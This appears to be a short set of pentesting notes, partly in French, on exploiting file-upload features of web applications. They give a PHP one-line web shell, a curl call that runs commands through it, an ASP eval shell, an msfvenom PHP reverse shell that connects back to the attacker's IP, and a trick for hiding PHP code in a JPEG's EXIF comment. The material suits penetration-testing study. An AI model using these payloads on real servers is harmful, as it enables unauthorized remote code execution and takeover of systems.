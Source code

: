 ## What check

- The first step would be to Identifying Web Framework what language runs the web application.

- Now that we have identified the web framework and its programming language, we can test whether we can upload a file with the same extension. 


## Web Shells

We can find many excellent web shells online that provide useful features, like directory traversal or file transfer.

**PHP**

- https://github.com/Arrexel/phpbash
- `/opt/seclists/Web-Shells`
- Custome web shell

```sh
echo '<?php system($_REQUEST['cmd']); ?>' > webshell.php
```

> We can download any of these web shells for the language of our web application, then upload it through the vulnerable upload feature, and visit the uploaded file to interact with the web shell.

Exploitation:

```sh
curl http://vulnerable.com/uploads/webshell.php?cmd=id
```

**ASP .NET**

- Custome web shell

```sh
<% eval request('cmd') %>
```

## Reverse Shell

We should start by downloading a reverse shell script in the language of the web application. 

**PHP**

- https://github.com/pentestmonkey/php-reverse-shell
- `/opt/seclists/Web-Shells`
- Custom Reverse Shell

```sh
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=9001 -f raw > rshell.php
```

## Exiftool

Avec une image `jpeg` legitime, coller le shell est dans les données exif de l'image - en particulier sur le `Comment` pour le garder bien à l'écart.

```sh
exiftool -Comment="<?php echo \"<pre>Test Payload</pre>\"; die(); ?>" image.jpeg

mv image.jpeg image.jpeg.php
```


